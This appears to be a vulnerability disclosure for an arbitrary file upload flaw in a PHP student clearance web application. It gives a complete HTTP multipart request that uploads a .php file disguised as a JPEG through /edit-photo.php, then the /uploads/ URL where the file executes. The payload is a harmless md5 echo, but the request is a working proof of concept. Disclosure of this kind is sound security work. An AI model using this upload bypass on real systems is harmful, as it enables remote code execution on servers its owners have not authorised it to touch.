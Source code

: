 ### Free and Web-Based Student Clearance System - Arbitrary File Upload

### Date: 2024-02/26
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html
### Tested on: MacOs13.5 + phpstudy

# /edit-photo.php（Arbitrary File Upload）

### 1,login System

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708932334103.jpg "Web-Based Student Clearance System")

### 2,edit photo Sample request POC #1

```
POST /edit-photo.php HTTP/1.1
Host: 127.0.0.1:8889
Content-Length: 309
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8889
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryg5TBlypbgZwnRdxp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8889/edit-photo.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=b79eb3fij4s19ggvqglf3v59te; __insuarance__logged=1; __insuarance__key=LJNT16FPPDNJD0PJG1Z8
Connection: close

------WebKitFormBoundaryg5TBlypbgZwnRdxp
Content-Disposition: form-data; name="userImage"; filename="1708927196358.php"
Content-Type: image/jpeg

<?php echo md5(1);?>
------WebKitFormBoundaryg5TBlypbgZwnRdxp
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryg5TBlypbgZwnRdxp--

```

### 3,Accessing avatars
```
http://127.0.0.1:8889/uploads/1708927196358.php
```
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708932508546.jpg "Web-Based Student Clearance System")

